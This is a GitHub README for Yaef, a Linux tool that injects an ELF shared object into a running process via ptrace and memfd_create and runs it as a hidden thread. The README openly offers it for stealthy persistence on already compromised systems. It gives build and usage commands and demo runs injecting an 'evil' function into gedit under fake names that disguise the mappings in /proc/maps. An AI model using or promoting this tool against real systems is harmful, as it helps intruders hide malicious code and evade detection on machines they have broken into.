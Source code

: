 # Yaef - Yet Another ELF-Injector
Yaef injects an ELF x86_64 shared object into a remote process, and makes 
it run as an independent thread. If specified, it can be used a fake name,
thus deceiving /proc/maps.

Overall, It's a pretty stealthy and complete solution to gain persistence in a
already compromised system. 

### How does it work
 1. Attach & stop all running threads ([Ptrace](https://www.kernel.org/doc/Documentation/security/Yama.txt))
 2. Create a memory file based on the binary ([memfd_create](http://man7.org/linux/man-pages/man2/memfd_create.2.html))
 3. Hijack remote **__libc_dlopen_mode()** function and load the memfd file.
 4. Hijack remote **pthread_create()** function and call our malicious one.

## Install
``` 
git clone https://github.com/0xN3utr0n/Yaef.git
cd Yaef
make 
```

## Usage
```
Usage: ./Yaef <option> <value>...

	-p	Target process id
	-b	Elf binary path
	-f	Elf binary function's name
	-n	File fake name (optional)
```
## Demo

**shell1>** ./Yaef -p $(pidof gedit) -f main -b ./dummy -n fakename1
```	
	#### YAEF ####

[*]0x7f32b8e88450 <- __libc_dlopen_mode()
[*]0x000000000630 <- main() offset
[*]Valid ELF binary
[*]Thread 2365 stopped
[*]Thread 2366 stopped
[*]Thread 2367 stopped
[*]Thread 2368 stopped
[*]Thread 2370 stopped
[*]Attached!
[*]0x7f32a8002000 <- String Injected!
[*]0x7f3299e22000 <- 'fakename1' Injected!
[*]0x7f32b5eb49b0 <- pthread_create()
```
**shell2>** gedit
```
//few seconds later...

Main function

Main function

Main function

Main function

Main function

Main function
```
And if we were to inject more binaries? </br>
**shell1>** ./Yaef -p $(pidof gedit) -f evil -b ./dummy -n fakename2
```
	#### YAEF ####

[*]0x7f32b8e88450 <- __libc_dlopen_mode()
[*]0x000000000780 <- evil() offset
[*]Valid ELF binary
[*]Thread 2365 stopped
[*]Thread 2366 stopped
[*]Thread 2367 stopped
[*]Thread 2368 stopped
[*]Thread 2375 stopped
[*]Attached!
[*]0x7f32a8000000 <- String Injected!
[*]0x7f3298ca0000 <- 'fakename2' Injected!
[*]0x7f32b5eb49b0 <- pthread_create()
```
**shell2>** gedit
```
Main function

Main function
...
...
//few seconds later...
Evil function !!!

Main function

Evil function !!!

Evil function !!!

Main function
```
**shell3>** cat /proc/$(pidof gedit)/maps 
```
555e8fb70000-555e8fb72000 r-xp 00000000 fc:01 1704296                    /usr/bin/gedit
555e8fd71000-555e8fd72000 r--p 00001000 fc:01 1704296                    /usr/bin/gedit
555e8fd72000-555e8fd73000 rw-p 00002000 fc:01 1704296                    /usr/bin/gedit
555e90326000-555e9104c000 rw-p 00000000 00:00 0                          [heap]
...
...
7f3298ca0000-7f3298ca1000 r-xp 00000000 00:05 65193                      /memfd:fakename2 (deleted) 
7f3298ca1000-7f3298ea0000 ---p 00001000 00:05 65193                      /memfd:fakename2 (deleted)
7f3298ea0000-7f3298ea1000 r--p 00000000 00:05 65193                      /memfd:fakename2 (deleted)
7f3298ea1000-7f3298ea2000 rw-p 00001000 00:05 65193                      /memfd:fakename2 (deleted)
...
...
...
7f3299e22000-7f3299e23000 r-xp 00000000 00:05 62901                      /memfd:fakename1 (deleted)
7f3299e23000-7f329a022000 ---p 00001000 00:05 62901                      /memfd:fakename1 (deleted)
7f329a022000-7f329a023000 r--p 00000000 00:05 62901                      /memfd:fakename1 (deleted)
7f329a023000-7f329a024000 rw-p 00001000 00:05 62901                      /memfd:fakename1 (deleted)
```

